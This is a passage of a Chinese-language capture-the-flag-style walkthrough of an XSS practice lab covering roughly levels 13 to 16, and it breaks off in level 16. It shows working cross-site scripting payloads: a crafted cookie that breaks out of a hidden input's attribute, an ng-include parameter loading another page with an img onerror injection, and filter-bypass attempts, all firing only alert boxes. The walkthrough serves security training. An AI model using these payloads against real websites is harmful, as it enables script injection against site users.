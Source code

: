 是基于cookie的吗 抓包尝试:

```php
Cookie: user=" qwe
<input name="t_cook"  value="" qwe" type="hidden">
//可以闭合
```

进一步构造代码:

```php
Cookie: user=" type="text" onmouseover=" alert(/xss/) 
<input name="t_cook"  value="" type="text" onmouseover=" alert(/xss/)" type="hidden">
```

成功弹窗

------

## less 15(less14因为网站404问题无法进行 跳过)

改url（" 尝试闭合） 调试器里的
<body><span class="ng-include:&quot;"></span></body> 有修改
继续尝试

```php
?src='level1.php'
<body><span class="ng-include:'level1.php'"></span></body>
```

**成功包含了level1.php的页面 那就在level1中做一个xss 然后包含这个页面让level14来执行level1的xss 开始尝试:**

```php
?src='level1.php?name=qwe'
//可以显示level1的传参查询
?src='level1.php?name=<script>alert(1)</script>'
<script>alert(1)</script> //单独作为一句话存在源码中 script标签没有被执行 
```

尝试换一个标签

```php
?src='level1.php?name=<img src=x onerror=alert(/xss/)>'
```

成功弹窗

------

## less 16

```php
?keyword=<script>alert(/xss/)</script>
<center>&lt;&nbsp;&gt;alert(&nbsp;xss&nbsp;)&lt;&nbsp;&nbsp;&gt;</center>
```

过滤的很严格 尝试其他标签

```php
?keyword=<img src=x onerror=alert(/xss/)>
<img&nbsp;src=x&nbsp;onerror=alert(&nbsp;xss&nbsp;)>
```
